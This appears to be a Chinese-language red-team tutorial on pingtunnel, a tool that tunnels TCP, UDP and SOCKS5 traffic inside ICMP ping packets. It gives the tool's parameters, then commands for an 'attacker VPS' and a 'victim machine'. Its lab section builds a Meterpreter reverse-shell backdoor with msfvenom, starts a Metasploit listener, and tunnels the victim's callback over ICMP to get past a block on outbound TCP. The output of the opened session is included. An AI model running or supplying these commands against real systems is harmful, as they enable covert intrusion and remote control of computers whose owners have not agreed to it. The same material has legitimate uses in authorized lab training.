

# 隧道工具-pingtunnel
<div style="text-align: right;">

date: "2023-12-04"

</div>

> Pingtunnel 是一个通过 ICMP 发送 TCP/UDP 流量的工具

下载地址：[https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel)

## 工具特点

1. 专注搭建ICMP隧道
2. 通过伪造ping，把tcp/udp/sock5流量通过远程服务器转发到目的服务器上。用于突破某些运营商封锁TCP
3. 在受害机执行需以管理员权限运行



## 参数说明

```bash
Usage:

    # 服务端
    pingtunnel -type server

    # 客户端，转发 udp
    pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -t SERVER_IP:4455

    # 客户端，转发 TCP
    pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -t SERVER_IP:4455 -tcp 1

    # 客户端，转发sock5，隐式开启tcp，所以不需要目标服务器
    pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -sock5 1

    -type     服务器或者客户端

服务器参数server param:

    -key      设置的密码，默认0

    -nolog    不写日志文件，只打印标准输出，默认0

    -noprint  不打印屏幕输出，默认0

    -loglevel 日志文件等级，默认info

    -maxconn  最大连接数，默认0，不受限制

    -maxprt   server最大处理线程数，默认100

    -maxprb   server最大处理线程buffer数，默认1000

    -conntt   server发起连接到目标地址的超时时间，默认1000ms

客户端参数client param:

    -l        本地的地址，发到这个端口的流量将转发到服务器

    -s        服务器的地址，流量将通过隧道转发到这个服务器

    -t        远端服务器转发的目的地址，流量将转发到这个地址

    -timeout  本地记录连接超时的时间，单位是秒，默认60s

    -key      设置的密码，默认0

    -tcp      设置是否转发tcp，默认0

    -tcp_bs   tcp的发送接收缓冲区大小，默认1MB

    -tcp_mw   tcp的最大窗口，默认20000

    -tcp_rst  tcp的超时发送时间，默认400ms

    -tcp_gz   当数据包超过这个大小，tcp将压缩数据，0表示不压缩，默认0

    -tcp_stat 打印tcp的监控，默认0

    -nolog    不写日志文件，只打印标准输出，默认0

    -noprint  不打印屏幕输出，默认0

    -loglevel 日志文件等级，默认info

    -sock5    开启sock5转发，默认0

    -profile  在指定端口开启性能检测，默认0不开启

    -s5filter sock5模式设置转发过滤，默认全转发，设置CN代表CN地区的直连不转发

    -s5ftfile sock5模式转发过滤的数据文件，默认读取当前目录的GeoLite2-Country.mmdb
```

## 基础使用

### 攻击者VPS

开启服务端

```bash
sudo ./pingtunnel -type server
```

禁用系统默认 ping：禁用系统默认 ping：关闭本地系统的ICMP应答程序（如果要恢复系统答应，则设置为0）在shell不稳定的情况下使用

```bash
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

也可以使用如下命令：
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

docker方式启动服务端

```bash
docker run --name pingtunnel-server -d --privileged --network host --restart=always esrrhs/pingtunnel ./pingtunnel -type server -key 123456
```

### 受害机

> 注意：需以管理员权限运行cmd.exe

```bash
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -sock5 1
```

解析：将受害机4455端口的流量以Socks5协议发送至服务端

```bash
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -t www.yourserver.com:4455 -tcp 1
```

解析：将受害机4455端口流量，通过 TCP 转发方式将流量发送到指定的服务器 ，并在服务器上将流量转发至服务器的4455端口

```bash
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -t www.yourserver.com:4455
```

将受害机4455端口流量，通过 UDP 转发方式将流量发送到指定的服务器 ，并在服务器上将流量转发至服务器的4455端口

```bash
docker run --name pingtunnel-client -d --restart=always -p 1080:1080 esrrhs/pingtunnel ./pingtunnel -type client -l :1080 -s www.yourserver.com -sock5 1 -key 123456
```

 Docker 容器中启动 pingtunnel 客户端，监听本地的 1080 端口，并通过 SOCKS5 转发方式将流量发送到指定的服务器 www.yourserver.com，客户端的密码为 "123456"。容器会在退出时自动重新启动

## 实验环境

> 当目标主机入站无规则且禁止所有TCP协议出网时该如何搭建隧道，在不使用正向连接的情况下，如何让让受害者主动连接攻击者VPS

| 机器 | IP | 状态 |
| --- | --- | --- |
| Win10 | 192.168.36.130 | 禁止所有TCP协议出网。入站无规则限制 |
| Kali | 192.168.36.128 |  |

### 攻击者VPS

服务端监听

```bash
sudo su
sudo ./pingtunnel -type server
```

msf生成反向后门

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > 20231203.exe
```

开启监听

```bash
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Sending stage (200774 bytes) to 192.168.36.128
[*] Meterpreter session 1 opened (192.168.36.128:5555 -> 192.168.36.128:57164) at 2023-12-04 05:15:58 -0500

meterpreter > getuid
Server username: DESKTOP-2JRVAGS\c

```

### 受害机

> 此处的cmd窗口未以管理员身份启动也可以运行

```bash
pingtunnel.exe -type client -l :4444 -s 192.168.36.128 -t 192.168.36.128:5555 -tcp 1
```

双击运行20231203.exe，即可突破tcp封禁上线tcp协议的后门
